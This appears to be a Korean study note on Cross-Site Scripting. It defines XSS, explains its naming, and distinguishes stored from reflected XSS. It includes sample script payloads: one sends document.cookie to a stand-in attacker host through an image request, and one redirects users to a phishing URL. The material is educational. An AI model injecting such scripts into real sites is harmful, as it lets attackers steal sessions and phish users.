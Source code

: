 # 서론
### XSS란?
* 클라이언트에는 웹 페이지의 이용자를 대상으로 공격할 수 있다.
>> 예를 들어 세션 및 쿠키 정보를 탈취하고 해당 계정으로 '임의의' 기능을 수행 가능하다.

### 💡 Cross-Site Scripting의 약어가 XSS인 이유
>> Cross-site scripting의 약어는 CSS라고 불리는 것이 옳습니다. 그러나 스타일시트를 정의하는 언어인 CSS와의 중복으로, 혼동되어 사용될 수 있기 때문에 XSS로 명명되었습니다.

### Cross-Site Scripting (XSS)
* 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행하는 공격을 주로 XSS이라고 한다.

### XSS 공격 코드 예시

#### 쿠키 생성 후 URL인젝션  
```java
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

#### 페이지 삽입
```java
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

#### 페이지 변조 공격 코드
```java
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

### 키워드
* Cross-Site Scripting (XSS): 클라이언트 사이드 취약점, 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행하는 취약점.

* Stored XSS: 악성 스크립트가 서버 내에 존재, 이용자가 저장된 악성 스크립트를 조회할 때 발생

* Reflected XSS: 악성 스크립트가 이용자 요청 내에 존재, 이용자가 악성 스크립트가 포함된 요청을 보낸 후 응답을 출력할 때 발생
